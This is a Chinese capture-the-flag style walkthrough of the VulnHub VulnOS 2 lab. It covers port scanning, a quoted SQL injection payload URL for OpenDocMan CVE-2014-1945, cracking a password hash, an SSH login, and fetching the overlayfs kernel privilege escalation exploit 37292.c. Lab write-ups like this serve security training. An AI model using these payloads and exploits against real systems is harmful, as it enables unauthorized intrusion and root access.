# VulnOS 2

下载地址：https://download.vulnhub.com/vulnos/VulnOSv2.7z

> 使用VirtualBox进行打开，调整USB为1.0才可以启动
>
> 

## 实战操作

扫描到靶场IP：`192.168.32.4`



扫描对外开放端口

```
┌──(root㉿kali)-[~]
└─# nmap -sV -p1-65535 192.168.32.4
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-07 23:31 EDT
Nmap scan report for 192.168.32.4
Host is up (0.00014s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
6667/tcp open  irc     ngircd
MAC Address: 08:00:27:57:4F:AA (Oracle VirtualBox virtual NIC)
Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.27 seconds
```

浏览器访问80端口



跟随链接进入到一个公司的介绍页面



来到documenttation页面，没有看到什么东西。



全选页面就可以看到一个路径`/jabcd0cs`和登录密码`guest/guest`






登录进去之后



寻找opendocman的利用漏洞


找到SQL注入漏洞

```
1) SQL Injection in OpenDocMan: CVE-2014-1945

The vulnerability exists due to insufficient validation of "add_value" HTTP GET parameter in "/ajax_udf.php" script. A remote unauthenticated attacker can execute arbitrary SQL commands in application's database.

The exploitation example below displays version of the MySQL server:

http://[host]/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,v
ersion%28%29,3,4,5,6,7,8,9
```



使用sqlmap进行SQL注入检测



找到webmin用户和密码哈希值。



解密密码哈希值



直接SSH登录



查看内核版本

```
webmin@VulnOSv2:~$ uname -a
Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux
webmin@VulnOSv2:~$ cat /proc/version
Linux version 3.13.0-24-generic (buildd@komainu) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014
webmin@VulnOSv2:~$ cat /etc/issue
### Welcome to VulnOSv2 ###

webmin@VulnOSv2:~$ cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.4 LTS"
NAME="Ubuntu"
VERSION="14.04.4 LTS, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04.4 LTS"
VERSION_ID="14.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"

```

查看提权脚本



复制EXP

```
┌──(root㉿kali)-[/tmp]
└─# searchsploit -m linux/local/37292.c
  Exploit: Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/37292
     Path: /usr/share/exploitdb/exploits/linux/local/37292.c
File Type: C source, ASCII text, with very long lines (466)

Copied to: /tmp/37292.c

```

提权成功



获取flag.txt内容


